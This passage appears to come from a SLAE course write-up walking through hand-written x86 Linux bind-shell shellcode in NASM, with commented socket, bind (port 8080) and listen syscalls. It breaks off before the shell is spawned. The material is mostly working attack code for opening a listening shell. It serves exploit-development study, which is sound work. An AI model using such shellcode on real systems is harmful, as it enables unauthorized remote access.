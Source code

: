 ```bash
```
  
So let's dive into our shellcode:  
```nasm
; shell_bind_tcp.nasm
; 
; A TCP port bind shellcode
;
; Author: SLAE - 891
;
; You are free to use and/or redistribute it without restriction

global _start

section       .text
_start:

; sockfd = socket(AF_INET, SOCK_STREAM, 0);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_SOCKET        1
       xor ebx,ebx
       mul ebx              ; zero out eax and edx
       mov al, 102          ; __NR_socketcall
       mov bl, 1            ; SYS_SOCKET
       
       ; we are pushing on the stack our arguments
       push edx             ; IPPROTO_IP
       push byte 1          ; SOCK_STREAM
       push byte 2          ; AF_INET
       
       mov ecx, esp         ; the top of the stack points to a structure of 3 arguments
       int 0x80             ; syscall - result is stored in eax
       mov edi, eax         ; stores sockfd

; bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_BIND                 2
       push edx             ; mysockaddr.sin_addr.s_addr = INADDR_ANY; //0 - listen on 0.0.0.0 (all interfaces)
       push word 0x901f     ; mysockaddr.sin_port = htons(dstport); //8080
       push word 2          ; AF_INET
       mov ebx, esp         ; stores the address of mysockaddr
       push byte 16         ; length of mysockaddr
       push ebx             ; pointer to mysockaddr
       push edi             ; sockfd

       xor ebx, ebx         ; flushing registers
       mul ebx
       mov al, 102          ; __NR_socketcall
       mov bl, 2            ; SYS_BIND
       mov ecx, esp         ; pointer to the args for socketcall
       int 0x80


; listen(sockfd, 0);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_LISTEN        4
       push edx             ; 0
       push edi             ; sockfd
       xor ebx, ebx         ; flushing registers
       mul ebx
```